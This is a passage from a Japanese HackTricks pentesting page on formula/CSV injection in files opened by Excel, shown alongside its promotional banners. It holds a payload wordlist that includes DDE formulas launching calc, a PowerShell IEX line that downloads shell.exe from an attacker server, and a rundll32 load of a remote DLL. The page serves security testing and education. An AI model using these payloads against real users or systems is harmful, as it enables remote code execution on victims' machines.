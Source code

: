 # フォーミュラ/CSV/ドキュメント/LaTeXインジェクション

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

最も重要な脆弱性を見つけて修正できるようにしましょう。Intruderは、攻撃対象を追跡し、積極的な脅威スキャンを実行し、APIからWebアプリやクラウドシステムまで、技術スタック全体で問題を見つけます。[**無料でお試しください**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)。

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## フォーミュラインジェクション

### 情報

もし、**入力**が**CSVファイル**（またはExcelで開かれる可能性のある他のファイル）に**反映**されている場合、Excelシート内でユーザーが**ファイルを開く**か、Excelシート内の**リンクをクリック**すると、Excel **フォーミュラ**を実行することができるかもしれません。

{% hint style="danger" %}
現在、**Excelは外部からの読み込み時にユーザーに警告**を表示します（何度も）。これは、悪意のある行動を防ぐためです。そのため、最終的なペイロードにはソーシャルエンジニアリングに特別な注意が必要です。
{% endhint %}

### [ワードリスト](https://github.com/payloadbox/csv-injection-payloads)
```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```
### ハイパーリンク
